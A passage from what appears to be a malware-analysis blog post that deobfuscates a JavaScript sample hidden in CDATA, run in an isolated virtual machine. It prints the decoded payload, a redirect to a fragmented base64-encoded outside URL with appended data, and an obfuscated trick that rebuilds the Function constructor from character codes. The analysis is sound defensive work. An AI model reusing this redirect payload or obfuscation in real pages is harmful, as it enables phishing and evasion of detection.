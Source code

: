 ```js
    };
    
    const Q = j(R, V); // P for Payload (decoded code string)
```
Personally, I prefer using the same language as the original script to decode things — in this case, Node.js. Writing a custom decoder might work, but there’s always a chance of missing subtle implementation details, which could lead to incorrect output.

Since the original code is JavaScript, sticking with Node.js ensures we stay true to the logic — especially with things like XOR operations where small variations (like character encoding or type coercion) can make a big difference.

**Note that I was using a virtual machine that was isolated from my host computer**

![nodejs](posts/Obfuscated-JS-in-CDATA/1.png)

The code returned

```js
'window.location.href = atob("aH"+"R0"+"cH"+\'M6\'+`Ly`+\'9h\'+\'en\'+\'Jz\'+"MS"+"51"+`am`+`52`+\'Zn\'+\'Nq\'+\'Lm\'+"Vz"+`L1`+"FN"+"Uj"+\'Rw\'+`ZH`+\'M0\'+"QF"+"Rt"+\'bm\'+\'sy\'+"aC"+`8k`)+w;'
```

Let’s put the decoding part aside for now and look at what else is going on in the code.

Next, we see a constant named S. This seems to be doing something a bit more involved

```js
const S = (() => {
        const B = [70, 117, 110, 99, 116, 105, 111, 110].map(E => String.fromCharCode(E)).join('');
        let A; try { A = new Function('return this')(); } catch (e) { A = new Function('return global')(); }
        return A[B];
    })
```

Lets put the same in nodejs and see

![nodejs](posts/Obfuscated-JS-in-CDATA/2.png)

